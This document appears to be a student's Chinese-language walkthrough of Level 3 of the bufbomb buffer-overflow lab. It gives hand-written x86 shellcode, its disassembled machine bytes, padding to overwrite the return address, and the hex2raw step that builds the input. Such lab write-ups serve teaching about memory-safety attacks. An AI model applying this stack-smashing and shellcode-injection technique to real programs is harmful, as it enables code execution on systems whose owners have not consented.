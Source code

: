 # bufbomb Level3 补充

![](1.png)

和Level2一样，要通过缓冲区溢出调用一个函数，不同的是这里要传入一个字符串地址

通过`gdb`观察`eval2equal`函数发现，它的功能是将十六进制的cookie转化为字符串并和str进行比较

![](2.png)

> 这里0x556832a2处存放的是cookie转换后的字符串
>
> `$ebp+0x8`是存放str的地址

因此首先要像Level2一样，编写.s文件

```assembly
movl	$0x804d208,%ecx  //这里直接用的global_value的地址
movl	$0x38423236,(%ecx)
movl	$0x41363831,0x4(%ecx)//将cookie“62B8186A”传入
push	%ecx			//将str首地址push入栈中
subl 	$0x4,%esp		
movl 	$0x0804953d,%eax//将rumble的地址0x0804950d push入栈
subl	$0x30,%eax		
push	%eax
ret
```

> 因为我的rumble地址里有`0d`会导致`getbuf`提前结束，因此这里采用将`0x0804953d-0x30`的方式push入栈
>
> 如果地址中没有这类特殊字节，则可以直接push

接着在`Terminal`中输入

```shell
as rumble.s -o rumble.o
objdump -d rumble.o > rumble-raw.txt
```

得到汇编指令对应的机器码

```assembly

rumble.o:     file format elf32-i386


Disassembly of section .text:

00000000 <.text>:
   0:	b9 08 d2 04 08       	mov    $0x804d208,%ecx
   5:	c7 01 36 32 42 38    	movl   $0x38423236,(%ecx)
   b:	c7 41 04 31 38 36 41 	movl   $0x41363831,0x4(%ecx)
  12:	51                   	push   %ecx
  13:	83 ec 04             	sub    $0x4,%esp
  16:	b8 3d 95 04 08       	mov    $0x804953d,%eax
  1b:	83 e8 30             	sub    $0x30,%eax
  1e:	50                   	push   %eax
  1f:	c3                   	ret    
```

接着在`Terminal`中输入`vim rumble.txt`

然后将这段机器码输入进去

![](3.png)

反编译出来得到的机器指令字节，而在getbuf这里可以看到，距离要覆盖的ebp返回地址一共有64字节，因此还需要32个字节进行填充（这里用33做填充纯粹是打起来方便，没有其他含义）

![](4.png)

同Level2一样，最后再加上%ebp的地址即可

保存rumble.txt后，输入

```shell
./hex2raw < rumble.txt > rumble-raw.txt
```

生成需要的输入字符串文件

然后运行bufbomb查看结果：

![](5.png)

